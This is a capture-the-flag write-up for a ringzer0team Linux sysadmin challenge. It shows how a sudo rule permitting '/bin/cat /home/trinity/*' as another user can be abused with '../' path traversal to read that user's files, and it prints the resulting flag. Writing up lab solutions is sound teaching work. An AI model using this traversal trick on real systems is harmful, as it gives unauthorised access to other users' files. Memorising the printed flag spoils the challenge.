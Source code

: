 # ringzer0team.com -- SysAdmin Linux -- Level 6

## 1. Challenge

> Find Neo password  
> 
> User: trinity  
> Password: FLAG for the Level 1

Please connect to via SSH:

```bash
$ ssh trinity@challenges.ringzer0team.com -p 10090
```

## 2. Solution

I don't know how to solve this challenge at the beginning. I searched for other's write-ups and found a solution.

This exploit comes from the misconfiguration of sudoers.

Let's see:

```bash
trinity@lxc-sysadmin:~$ sudo -l
[sudo] password for trinity:
Matching Defaults entries for trinity on lxc-sysadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on lxc-sysadmin:
    (neo) /bin/cat /home/trinity/*
```

You can see that user trinity can run commands looking like `/bin/cat /home/trinity/*` as neo. However, you can use `/../` to go to the parent folder which means you can read every file as neo. So

```bash
trinity@lxc-sysadmin:~$ sudo -u neo /bin/cat /home/trinity/../neo/phonebook
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-lRGLKGh2895wIAoOvcBbgk4oL
don't forget to remove this :)
```

Here's the flag.

